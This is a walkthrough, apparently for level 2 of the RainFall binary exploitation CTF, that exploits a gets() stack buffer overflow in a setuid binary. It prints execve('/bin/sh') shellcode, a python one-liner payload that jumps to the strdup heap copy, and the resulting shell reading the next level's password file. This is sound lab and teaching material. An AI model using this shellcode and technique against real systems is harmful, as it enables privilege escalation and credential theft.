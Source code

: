 <p align="justify">

Level2's protections:
```Shell
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

Level2's rights:
```Shell
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
```

When testing the binary, we notice that it waits for user input and prints it back to us.
Decompiling with Ghidra on https://dogbolt.org/ shows four things:
- `main()` calls a `p()` function
- `p()` stores a buffer of 76 bytes that is used with `gets()`
- a condition checks if `EIP` contains an address from the stack (in which case, it prints back the address itself and exits)
- `p()` calls `strdup()` with the same buffer used in `gets()`.

To open a shell, we must therefore do the following:
- write a shellcode that opens a terminal and store it inside the buffer
- redirect the flow of execution at the start of the buffer
- since we cannot use the address of the buffer from the stack (because of the check), we will use the address of its copy
from the heap, thanks to `strdup()` which uses `malloc()`

Let's write a shellcode:
```Shell
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```
This corresponds to `execve("/bin/sh")`. You can write your own shellcode by writing it in C, doing `objdump()` on the .o
file, copy-pasting the info and add \x in front of each byte. This shellcode is 21-bytes long.
 
Now,using ltrace we can get the return address of `strdup()`, which corresponds to the copied buffer.
```Shell
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Using gdb and a buffer overlow pattern we get an offset of 80 bytes before reaching `EIP`.
(76 for the buffer itself and 4 extra bytes for `EBP`). This will be the structure of our payload:
21-bytes of shellcode + 59-bytes of `NOP` instructions to overflow + address of the `strdup()` buffer converted in Little Endian.
```Shell
level2@RainFall:~$ python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08")' > /tmp/payload2
level2@RainFall:~$ cat /tmp/payload2 - | ./level2
1���
    Qh//shh/bin��̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

</p>
